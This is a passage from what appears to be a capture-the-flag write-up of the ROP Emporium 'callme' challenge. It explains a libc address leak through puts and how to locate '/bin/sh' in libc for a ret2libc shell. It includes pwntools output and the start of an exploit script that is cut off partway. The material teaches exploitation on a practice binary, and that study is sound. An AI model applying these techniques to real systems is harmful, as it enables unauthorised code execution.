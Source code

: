 ```text
    PIE:      PIE enabled
[+] Starting local process '/home/sammy/Projects/binexp/ropemporium/3-callme/callme': pid 54924
[*] sending payload 1
[*] received libc_puts address 0x7ffff7a715a0
[*] libc leaked address is 0x7ffff79f6000
[*] system leaked address is 0x7ffff7a45230
[*] Stopped process '/home/sammy/Projects/binexp/ropemporium/3-callme/callme' (pid 54924)
```

We can see that our `libc` address is correct, which means we carried out the leak correctly.

Great. Now that we have the address of `system`, we just have one thing left: the parameter to pass to it. Obviously it's going to be `/bin/sh`, but where can we get that string without writing it into memory ourselves? Well, we have this massive shared library used by literally every program in the Linux ecosystem, surely there's going to be something in there right?

And we'd be right. A simple search with `strings` yields what we need right away:

```text
$ strings -t x /usr/lib/libc.so.6 | grep /bin/sh

 1bd115 /bin/sh
```

As luck would have it, we have a string with the exact content we need at offset `0x1bd115`. We can again confirm this with Python:

```python
>>> hex(next(libc.search(b'/bin/sh')))
'0x1bd115'
```

Funnily enough, this offset is used by `system` to call a helper function that actually performs the `exec` to the shell. Check the disassembly above if you don't believe it.

And now all we need is some gadgets. Which, come to think of it, we already have. Remember earlier, when we used that `pop rdi` gadget? We can use it again here to get the address of the string into `rdi`.

Some observant readers may have noticed by now that we need to send two payloads, one to leak the address and one to pop our shell, but we only have one opportunity to read in data. How do we get around this? Well, with more ROP of course. We can simply put the address of the program's entry point (most Linux programs use `_start`) at the end of our first payload. This essentially restarts the entire program once the leak finishes without reloading the entire binary, thereby preserving the address of `libc`, and allows us to read in a second payload. If we're reading in data much later in the program, or there are other data reads before this, we can just jump back to the function that does the read where we need to send data (in this case, `pwnme`).

So all that's left is to re-enable ASLR...

```text
echo 1 | sudo tee /proc/sys/kernel/randomize_va_space
```

put the entire script together...

```python
from pwn import *

elf = context.binary = ELF("./callme")

# get all the information we need first.

# the addresses of puts' PLT and GOT entries.
PUTS_PLT = elf.plt["puts"]
PUTS_GOT = elf.got["puts"]

# the address of our entry point.
START = elf.symbols._start

```